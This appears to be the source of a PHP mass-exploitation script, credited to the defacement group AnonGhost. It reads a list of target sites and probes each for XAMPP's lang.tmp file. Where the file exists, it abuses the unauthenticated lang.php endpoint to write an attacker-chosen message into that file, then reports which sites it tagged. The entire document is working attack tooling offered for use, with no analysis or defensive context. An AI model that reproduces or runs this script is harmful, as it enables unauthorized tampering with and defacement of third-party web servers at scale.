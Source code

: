 echo "Input your target list: ";
$list = trim(fgets(STDIN));
echo "Input your quote : ";
$quote0 = htmlspecialchars(str_replace(" ","_",(trim(fgets(STDIN)))));
$quote1 = str_replace(">","_",$quote0);
$quote2 = str_replace("<","_",$quote1);
$quote3 = str_replace("&gt;","_",$quote2);
$pwn = str_replace("&lt;","_",$quote3);

$open = fopen("$list","r");
$size = filesize("$list");
$read = fread($open,$size);
$lists = explode("\r\n",$read);

echo "\n";

foreach($lists as $target){
	if(!preg_match("/^http:\/\//",$target) AND !preg_match("/^https:\/\//",$target)){
		$targets = "http://$target";
	}else{
		$targets = $target;
	}
	
	echo "Target => $targets\n";
	echo "  [*] Checking Path : ";
	
	$chx = curl_init("$targets/xampp/lang.tmp");
	curl_setopt($chx, CURLOPT_FOLLOWLOCATION, 1);
	curl_setopt($chx, CURLOPT_RETURNTRANSFER, 1);
	curl_exec($chx);
	$httpcodex = curl_getinfo($chx, CURLINFO_HTTP_CODE);
	curl_close($chx);
					
	$chs = curl_init("$targets/security/lang.tmp");
	curl_setopt($chs, CURLOPT_FOLLOWLOCATION, 1);
	curl_setopt($chs, CURLOPT_RETURNTRANSFER, 1);
	curl_exec($chs);
	$httpcodes = curl_getinfo($chs, CURLINFO_HTTP_CODE);
	curl_close($chs);

	if($httpcodex == 200){
		echo "/xampp/lang.tmp => OK\n";
		echo "  [*] Exploiting Target : ";
		$ck = curl_init("$targets/xampp/lang.php?$pwn");
		curl_setopt($ck, CURLOPT_FOLLOWLOCATION, 1);
		curl_setopt($ck, CURLOPT_RETURNTRANSFER, 1);
		$cka = curl_exec($ck);
		if($cka){
			echo "OK\n";
			echo "  [*] Result : ";
			$ch = curl_init("$targets/xampp/lang.tmp");
			curl_setopt($ch, CURLOPT_FOLLOWLOCATION, 1);
			curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
			$cek = curl_exec($ch);
			if(preg_match("/$pwn/",$cek)){
				echo "$targets/xampp/lang.tmp\n\n";
			}else{
				echo "$targets/xampp/lang.tmp\n\n";
			}
			curl_close($ch);
		}else{
			echo "Failed\n\n";
		}
	}else if($httpcodes == 200){
		echo "/security/lang.tmp => OK\n";
		echo "  [*] Exploiting Target : ";
		$ck = curl_init("$targets/security/lang.php?$pwn");
		curl_setopt($ck, CURLOPT_FOLLOWLOCATION, 1);
		curl_setopt($ck, CURLOPT_RETURNTRANSFER, 1);
		$cka = curl_exec($ck);
		if($cka){
			echo "OK\n";
			echo "  [*] Result : ";
			$ch = curl_init("$targets/security/lang.tmp");
			curl_setopt($ch, CURLOPT_FOLLOWLOCATION, 1);
			curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
			$cek = curl_exec($ch);
			if(preg_match("/$pwn/",$cek)){
				echo "$targets/security/lang.tmp\n\n";
			}else{
				echo "$targets/security/lang.tmp\n\n";
			}
			curl_close($ch);
		}else{
			echo "Failed\n";
		}
	}else{
		echo "Not Vuln\n\n";
	}
}

## Thanks To AnonGhost ##
